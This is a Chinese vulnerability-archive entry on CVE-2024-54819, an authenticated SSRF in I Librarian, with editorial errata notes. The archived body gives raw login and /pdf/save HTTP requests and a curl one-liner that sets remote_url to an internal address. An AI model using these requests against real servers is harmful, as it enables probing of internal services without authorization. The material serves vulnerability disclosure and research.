


# CVE-2024-54819 - I Librarian 服务器端请求伪造

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：I Librarian Web应用
- 文献类型：已认证SSRF请求样例
- 版本、权限及部署边界：登录账户/IL会话/CSRF令牌与有效PDF id；remote_url指向服务器可达地址
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 攻击者必须被记录是logged-in误译，应明确需认证不是未授权
2. 未给受影响/修复版本或角色权限；127.0.0.1是示例服务，remote_url=http://0:6565解析依赖平台/库需要说明
3. 仅给请求和截图，没有响应/监听结果文本，不能区分请求接受与真正SSRF成功；实际验证需重新取得有效Cookie/CSRF
4. HTTP例子含注释、removed和固定Content-Length，不能直接重放；原详细链接https: //断裂且仅根域
5. 有研究者GitHub可追溯；Web应用应迁Web软件，广告GIF清理

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/partywavesec/CVE-2024-54819?tab=readme-ov-file>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

 Ots安全   2024-12-31 05:48  
  
  
  
**CVE-2024-54819**  
  
阅读更多详细信息：https: //www.partywave.site 关于 CVE-2024-54819  
  
**POST 请求登录**  
  
攻击者必须被记录  
  
```
POST /librarian/index.php/authentication HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[removed ...]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1920
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/librarian/
Cookie: IL=[LIBRARIAN COOKIE] # for example: IL=poscnjta68n2691tehd5gt9k9e
[removed ...]

username=[USERNAME]&password=[PASSWORD]&csrfToken=[CSRF_TOKEN]
```  
  
  
  
**POST 请求保存 PDF**  
  
remote_url parameter容易受到弱验证的影响  
  
```
POST /librarian/index.php/pdf/save HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[removed ...]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1920
X-Requested-With: XMLHttpRequest
Content-Length: 135
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/librarian/index.php/item
Cookie: IL=[LIBRARIAN COOKIE] # for example: IL=poscnjta68n2691tehd5gt9k9e
[removed ...]

remote_url=[PAYLOAD]&id=[PDF_ID]&csrfToken=[CSRF_TOKEN]
```  
  
  
**Bash 单行命令**  
  
这个单行代码是一个利用服务器端请求伪造的示例值的示例：  
  
```
curl -X POST http://127.0.0.1/librarian/index.php/pdf/save -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: IL=rcidrisa6hukk5amtmol06b0if" --data-urlencode "remote_url=http://0:6565" --data-urlencode "id=2" --data-urlencode "csrfToken=f3aa558cc79ebf4c48ee042ad61aeaebdf9e9a52b44c64174de398f4f46959df" --proxy http://127.0.0.1:8080
```  
  
  
  
  
  
  
  
  
**项目地址：**  
  
https://github.com/partywavesec/CVE-2024-54819?tab=readme-ov-file  
  
  
  
感谢您抽出  
  
  
  
.  
  
  
  
.  
  
  
  
来阅读本文  
  
  
  
**点它，分享点赞在看都在这里**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
